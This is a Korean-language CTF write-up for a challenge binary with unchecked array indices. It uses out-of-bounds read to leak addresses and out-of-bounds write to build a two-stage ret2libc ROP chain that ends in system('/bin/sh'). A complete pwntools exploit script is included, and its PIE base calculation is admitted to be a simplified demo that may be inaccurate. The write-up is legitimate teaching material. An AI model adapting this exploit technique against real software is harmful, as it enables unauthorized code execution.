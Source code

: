 challenge 문제제작 라이트업
===============

## 0) 보호기법 확인

```
checksec --file=challenge

* RELRO: **Full RELRO**
* Stack Canary: **No canary**
* NX: **NX enabled**
* PIE: **PIE enabled**
```

GOT overwrite는 Full RELRO로 막혀 있으므로 불가. 대신 **OOB read**로 **PIE base**를 누출하고, **OOB write**로 **saved RIP**을 덮어 **ROP** 수행.

## 1) 취약점 개요

`vuln()`에는 `uint64_t arr[8]`가 스택에 있고, `read/write`에서 **인덱스 경계검사 없음**.

* `read idx` → 임의 인덱스 읽기: **OOB read**
* `write idx value` → 임의 인덱스 쓰기: **OOB write**

일반적으로 스택 프레임: `[arr(0..7)] [saved RBP] [saved RIP] ...`
따라서 `idx >= 8` 또는 음수 인덱스 등을 이용해 **저장된 RBP/RIP 영역에 접근** 가능.

## 2) PIE 베이스 누출 (OOB read)

* `arr[k]`에서 `k`를 크게 주면(예: 10, 11 등) 스택의 상위 슬롯(저장된 RBP, 그 위의 **저장된 RIP**)이 노출.
* 출력되는 `saved RIP` 값은 `main` 또는 `vuln` 내부의 **PIE 주소**.
* `PIE_base = saved_RIP - offset_to_return_site`

  * offset은 디스어셈/ROPgadget로 바이너리 내 심볼/가젯 위치를 보면 계산 가능.
  * pwntools의 `ELF("./challenge", checksec=False)`와 `ROP()`를 사용해 **가젯 오프셋**을 구하고, 누출한 PIE 베이스로 주소 복원.

## 3) 1단계 ROP: libc 누출

NX가 켜져 있으므로 쉘코드는 불가 → **ret2libc** 필요.
libc 베이스를 얻기 위해서

1. **`pop rdi; ret`** (PIE 내부 가젯)로 인자 세팅.
2. **`puts@plt(puts@got)`** 호출 → `puts` 실제 libc 주소 누출.
3. **`main` (또는 `vuln`)으로 복귀** → 2단계 ROP를 다시 넣을 기회 확보.

체인

```
[... overwrite saved RIP with]
pop_rdi_ret
&puts@got (PIE base + off)
puts@plt   (PIE base + off)
main       (PIE base + off)
```

이 체인을 저장된 RIP 위치에 덮어쓰기 위해, `write idx value`로 **8바이트 단위로** 차례대로 쓰면 된다.

## 4) 2단계 ROP: system("/bin/sh")

1단계에서 받은 `puts` 누출로 `libc_base = leaked_puts - libc.sym['puts']` 계산.
이후

* `system = libc_base + libc.sym['system']`
* `bin_sh = libc_base + next(libc.search(b"/bin/sh"))`

체인

```
ret                 (정렬용)
pop_rdi_ret
bin_sh
system
```

## 5) 플래그 획득

체인 성공 시 쉘이 떠서 cat flag.txt

---

## 익스플로잇 코드



```python
# exploit.py
from pwn import *

context.binary = ELF('./challenge', checksec=False)
elf = context.binary

def start():
    return process('./challenge')

p = start()

def read_idx(i):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'idx? ', str(i).encode())
    line = p.recvline_regex(br"arr\[\-?\d+\] = 0x[0-9a-f]+")
    val = int(line.strip().split(b'=')[1], 16)
    return val

def write_idx(i, val):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx? ', str(i).encode())
    p.sendlineafter(b'> ', hex(val).encode())
    p.recvuntil(b"ok")

# 1) OOB read로 saved RIP 누출
saved_rbp = read_idx(8)
saved_rip = read_idx(9)
log.info(f"saved_rbp = 0x{saved_rbp:016x}")
log.info(f"saved_rip = 0x{saved_rip:016x}")

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi','ret']).address

# PIE base 대략화: saved_rip가 main의 리턴 근처라고 가정하고, 바이너리에서 main의 오프셋을 가져와 정렬
pie_base = saved_rip - elf.symbols['vuln'] 
log.info(f"PIE base (approx) = 0x{pie_base:016x}")

def A(off): return pie_base + off

puts_plt = A(elf.plt['puts'])
puts_got = A(elf.got['puts'])
main_addr = A(elf.symbols['main'])
pop_rdi_abs = A(pop_rdi)

# 2) 1단계 ROP: puts@plt(puts@got) → main
payload_chain = [
    pop_rdi_abs,
    puts_got,
    puts_plt,
    main_addr
]

# 스택 상에서 saved RIP 인덱스(9)에 맞춰 연속으로 써 넣음
start_idx = 9
for i, q in enumerate(payload_chain):
    write_idx(start_idx + i, q)

# 트리거: 메뉴에서 exit 선택으로 vuln 리턴 유도
p.sendlineafter(b'> ', b'3')

# 누출 수신
leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f"leaked puts = 0x{leaked:016x}")

# libc 로드 (시스템 환경 libc 사용 시)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
libc_base = leaked - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
ret_sled = pop_rdi_abs + 1  

log.info(f"libc base = 0x{libc_base:016x}")
log.info(f"system    = 0x{system:016x}")
log.info(f"/bin/sh   = 0x{binsh:016x}")

# 3) 2단계 ROP: [ret](정렬용) → pop rdi; ret → binsh → system
payload_chain2 = [
    ret_sled,   
    pop_rdi_abs,
    binsh,
    system
]

# 다시 vuln으로 돌아왔으니 동일 절차로 RIP 덮기
for i, q in enumerate(payload_chain2):
    write_idx(start_idx + i, q)

p.sendlineafter(b'> ', b'3')
p.interactive()  # 쉘
```

주의: 해당 코드에서 `pie_base` 계산 부분은 **데모용**으로 단순화되어 있다.    

실제 익스에서는 `saved_rip`이 가리키는 정확한 오프셋을 디버거로 확인해서 `pie_base = saved_rip - <그 오프셋>`으로 안정적으로 구해야 한다. 또는 첫 단계에서 굳이 PIE base를 쓰지 않고 `plt/got` 상대 오프셋만으로 libc 누출 후, 두 번째 단계에서 `ROP(ELF).find_gadget`의 **오프셋** + `pie_base`로 절대 주소를 산출하는 방법을 사용할 수도 있다.
